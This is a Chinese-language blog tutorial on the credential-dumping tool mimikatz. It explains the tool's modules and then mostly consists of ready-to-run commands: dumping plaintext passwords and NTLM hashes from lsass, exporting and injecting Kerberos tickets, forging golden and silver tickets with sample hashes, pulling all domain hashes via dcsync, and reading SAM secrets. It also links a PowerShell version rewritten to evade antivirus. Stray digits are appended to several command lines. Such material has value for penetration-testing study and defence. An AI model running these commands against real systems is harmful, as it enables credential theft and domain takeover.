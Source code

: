 **目录**

[mimikatz](#t0 "mimikatz")

[mimikatz的使用](#t1 "mimikatz的使用")

[sekurlsa模块](#t2 "sekurlsa模块")

[kerberos模块](#t3 "kerberos模块")

[lsadump模块](#t4 "lsadump模块 ") 

* * *

mimikatz
--------

mimikatz是法国人Gentil Kiwi 编写的一款 Windows 平台下的神器，它具备很多功能，其中最主要的功能是直接从 lsass.exe 进程里获取处于active状态的账号明文密码。mimikatz的功能不仅如此，它还可以提升进程权限，注入进程，读取进程[内存](https://so.csdn.net/so/search?q=%E5%86%85%E5%AD%98&spm=1001.2101.3001.7020)等等，mimikatz包含了很多本地模块，更像是一个轻量级的调试器。作者主页：[http://blog.gentilkiwi.com/](http://blog.gentilkiwi.com/%C2%A0 "http://blog.gentilkiwi.com/ ")   项目地址：[GitHub - gentilkiwi/mimikatz: A little tool to play with Windows security](https://github.com/gentilkiwi/mimikatz/ "GitHub - gentilkiwi/mimikatz: A little tool to play with Windows security")  。mimikatz的Powershell版本：[Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1 "Invoke-Mimikatz.ps1")**(**[GitHub - fir3d0g/mimidogz: Rewrite of Invoke-Mimikatz.ps1 to avoid AV detection](https://github.com/fir3d0g/mimidogz "GitHub - fir3d0g/mimidogz: Rewrite of Invoke-Mimikatz.ps1 to avoid AV detection")**)**

mimikatz的使用
-----------

**查看mimikatz的版本**

![](https://img-blog.csdnimg.cn/2020021823201556.png)

**查看mimikatz中的模块**

随便输入 xx:: ，会提示xx模块没发现，然后就会列出所有可用的模块命令

```
cls：清屏      
standard：标准模块，基本命令      
crypto：加密相关模块      
sekurlsa：与证书相关的模块      
kerberos：kerberos模块      
privilege：提权相关模块      
process：进程相关模块      
serivce：服务相关模块      
lsadump：LsaDump模块      1
ts：终端服务器模块      1
event：事件模块      1
misc：杂项模块      1
token：令牌操作模块      1
vault：Windows 、证书模块      1
minesweeper：Mine Sweeper模块      1
net：      1
dpapi：DPAPI模块（通过API或RAW访问）[数据保护应用程序编程接口]      1
busylight：BusyLight Module      1
sysenv：系统环境值模块      2
sid：安全标识符模块      2
iis：IIS XML配置模块      2
rpc：mimikatz的RPC控制      2
sr98：用于SR98设备和T5577目标的RF模块      2
rdm：RDM（830AL）器件的射频模块      2
acr：ACR模块      2
version：查看版本      2
exit：退出
```


![](https://img-blog.csdnimg.cn/20200218232050156.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**查看模块的参数**

如果要查看某个模块具体的参数，也是一样用法。比如我要查看kerberos模块有哪些参数，可以 kerberos:: ，这样就会列出该模块具体有哪些参数了。

![](https://img-blog.csdnimg.cn/2020031109403440.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

mimikatz 很多功能的使用需要管理员权限，也就是需要本地的 administrator 权限或者域内的管理员组内权限。如果是工作组环境，则必须得是 administrator 用户，而不能是管理员组内的用户。如果是域环境，则只要是域管理员组内用户即可。

```
privilege::debug             #提升权限
```


### sekurlsa模块

```
抓取系统明文密码      
sekurlsa::logonpasswords       
抓取用户NTLM哈希      
sekurlsa::msv       
加载dmp文件，并导出其中的明文密码      
sekurlsa::minidump lsass.dmp      
sekurlsa::logonpasswords full       1
导出lsass.exe进程中所有的票据      1
sekurlsa::tickets /export
```


### kerberos模块

```
列出系统中的票据      
kerberos::list      
kerberos::tgt       
清除系统中的票据      
kerberos::purge       
导入票据到系统中      
kerberos::ptc 票据路径       1
生成黄金票据并导入，利用krbtgt的NTLM哈希      1
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /krbtgt:7aad81625fab43e7fdb3cd9f399c060c /ptt      1
kerberos::golden /user:要伪造的域用户(我们这一般写域管理员) /domain:域名 /sid:域的sid值 /krbtgt:krbtgt的哈希 /ptt      1
生成黄金票据并导入，利用krbtgt的AES-256      1
kerberos::golden /user:administrator /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /aes256:93c335cce03858c917fa2ea98ca79f0b791c93c33ab17936784548114648cda7  /ptt      1
kerberos::golden /user:要伪造的域用户(我们这一般写域管理员) /domain:域名 /sid:域的sid值 /aes256:krbtgt的AES256 /ptt       1
生成白银票据并导入      1
kerberos::golden /domain:xie.com /sid:S-1-5-21-2189311154-2766837956-1982445477 /target:WIN2008.xie.com /service:cifs /rc4:290c699798b47b809500b3bbd4ed3e2f /user:administrator /ptt
```


### lsadump模块 

```
(在域控上执行)查看域xie.com内指定用户krbtgt的详细信息，包括NTLM哈希等      
lsadump::dcsync /domain:xie.com /user:krbtgt       
(在域控上执行)读取指定域所有用户的哈希      
lsadump::dcsync /domain:beijing.xie.com  /all /csv        
(在域控上执行)读取所有域用户的哈希      
lsadump::lsa /patch       1
从sam.hive和system.hive文件中获得NTLM Hash      1
lsadump::sam /sam:sam.hive /system:system.hive       1
从本地SAM文件中读取密码哈希      1
token::elevate      1
lsadump::sam
```


![](https://img-blog.csdnimg.cn/20210627111830160.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210627111915907.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

查看所有的密码

```
mimikatz.exe privilege::debug log "token::elevate lsadump::sam lsadump::secrets" exit
```


![](https://img-blog.csdnimg.cn/20200721111755513.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

使用mimikatz进行票据传递攻击(PtT)：[票据传递攻击(Pass the Ticket,PtT)](https://blog.csdn.net/qq_36119192/article/details/92843080 "票据传递攻击(Pass the Ticket,PtT)")

mimikatz更多用法后续更新。。

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)